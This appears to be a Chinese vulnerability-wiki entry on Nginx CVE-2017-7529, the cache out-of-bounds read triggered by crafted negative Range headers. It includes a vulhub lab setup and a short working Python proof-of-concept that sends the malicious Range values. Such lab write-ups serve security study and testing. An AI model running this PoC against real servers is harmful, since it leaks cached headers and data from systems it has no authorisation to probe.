 ```yaml
---
title: Nginx越界读取缓存漏洞 CVE-2017-7529
---
```


# Nginx越界读取缓存漏洞 CVE-2017-7529

## 漏洞描述
Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 影响版本
<a-checkbox checked>Nginx version 0.5.6 - 1.13.2</a-checkbox></br>

## 环境搭建
``` shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```
访问` http://xxx.xxx.xxx.xxx:8080` 正常即可

![image-20220307133726141](/assets/PeiQi-Wiki/img/image-20220307133726141.png)

## 漏洞复现

使用POC进行验证

```shell
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![318085cd-8491-4ca4-b19e-de8f66041c6b](/assets/PeiQi-Wiki/img/318085cd-8491-4ca4-b19e-de8f66041c6b.png)

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```

